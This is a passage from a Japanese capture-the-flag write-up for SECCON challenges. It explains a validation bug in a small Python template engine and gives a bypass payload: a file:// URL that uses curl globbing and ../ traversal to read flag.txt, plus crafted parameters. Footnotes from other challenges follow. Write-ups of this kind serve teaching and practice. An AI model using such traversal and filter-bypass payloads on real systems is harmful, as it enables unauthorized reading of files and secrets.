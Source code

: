 テンプレートエンジンの実装は以下のとおり:
```python
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text
```

この処理を悪用して、フラグから`SECCON`の文字列を消してフラグの中身部分を返すようにすることはできないでしょうか。

まず重要なポイントとして`validate`関数にはバグがあり、実は`validate("{")`が`True`を返します。
このバグとcurlのURL globbingの挙動を利用してうまくbypassします。

例えば、

- URL: `file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}`
- params:
    ```json
    {
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
    }
    ```

でbypassが可能です。

テンプレートエンジン内での置換の過程は以下のとおりです。

最初:
```
... snip ...
<body>
  <h1>Hello, {name}!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}
```


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。